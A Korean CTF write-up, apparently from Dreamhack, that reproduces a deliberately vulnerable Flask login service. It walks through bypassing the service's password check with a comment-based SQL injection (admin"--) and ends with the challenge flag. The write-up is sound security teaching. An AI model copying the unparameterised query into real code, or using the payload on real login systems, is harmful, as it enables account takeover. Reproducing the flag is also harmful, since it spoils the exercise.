


문제는 **로그인 서비스입니다. SQL INJECTION 취약점을 통해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.** 이다.  

코드를 보면 다음과 같다.  

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```

다음은 웹 사이트다.  

 

1. /login  
로그인을 하는 화면이다.

먼저 GET(로그인 화면으로 들어갈 때) 을 하면 **login.html** 을 render 한다.  
그리고 POST(로그인 버튼을 누를 때) 를 하면 **userid, userpassword** 를 가져와서

```SQL
select * from users where userid="{userid}" and userpassword="{userpassword}"
```

에 넣어서 이 쿼리문에 대한 결과를 반환한다.  

그렇다면 SQL Injection 의 실습에서 했던 것처럼 **userpasword** 를 검사하지 못하게, **주석처리**를 하면 된다.  

따라서 이렇게 공격문을 적을 수 있다.



이렇게 적으면,

```SQL
select * from users where userid="admin"--" and userpassword="{userpassword}"
```

이렇게 인식이 되서

```SQL
select * from users where userid="admin"
```

이러한 쿼리가 완성된다.

```python
res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
```

즉, /login에 있는 위의 코드에서 **질의 결과가 res** 에 들어가고, **res의 0번 인덱스(id)를 userid** 에 넣는다.

그리고 userid 가 **admin** 이면, **FLAG**를 보여주는 방식이다.


따라서 정답은 **DH{c1126c8d35d8deaa39c5dd6fc8855ed0}** 이다.